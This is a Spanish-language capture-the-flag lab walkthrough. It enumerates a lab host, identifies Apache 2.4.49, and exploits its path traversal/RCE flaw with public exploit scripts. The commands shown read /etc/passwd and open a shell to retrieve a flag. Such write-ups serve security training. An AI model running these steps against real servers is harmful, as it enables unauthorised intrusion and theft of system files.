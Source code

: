 # Walk: PublicExploits02

## Fecha: 09/02/2025
## Host: Linux
## IP: 192.168.xxx.188
## Objetivo
Buscar el exploit adecuado para obtener el reverse shell
## Herramientas
1. searchsploit
2. nmap
3. github
## Procedimiento y comandos
#### Paso 1:  Enumeracion
1. Buscamos _puertos_, _servicios_ y _directorios_
- `nmap -sV -p- --script=banner,default 192.168.xxx.188 --min-rate 5000`
- `gobuster dir -u http://192.168.xxx.188 -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt`
> Resultados de nmap:
```
...
Nmap scan report for 192.168.232.188
Host is up (0.19s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.49 ((Unix))
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Paradigm Shifts
|_http-server-header: Apache/2.4.49 (Unix)
...
```
>Gobuster no devolvio mucho
#### Paso 2: Buscamos exploits para `Apache httpd 2.4.49 ((Unix))` 
- `searchsploit Apache httpd 2.4.49`
> resultados de searchsploit
```
-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                  |  Path
-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Apache HTTP Server 2.4.49 - Path Traversal & Remote Code Execution (RCE)                                                                                                        | multiple/webapps/50383.sh
-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```
- Al intentar ejecutar el script, no obtenemos buenos resultados:
` ./50383.sh directories.txt /etc/passwd`
- Buscamos en el navegador y encontramos:
- [github public exploit](https://github.com/thehackersbrain/CVE-2021-41773/tree/main)
#### Paso 3: Obtenemos el flat
- Luego de ejecutar el exploit:  `python3 public_exploit.py -t 192.168.xxx.188`
obtenemos un shell y el directorio _**/home/offsec/**_ obtenemos el flag.txt
- `cat /home/offsec/flag.txt`
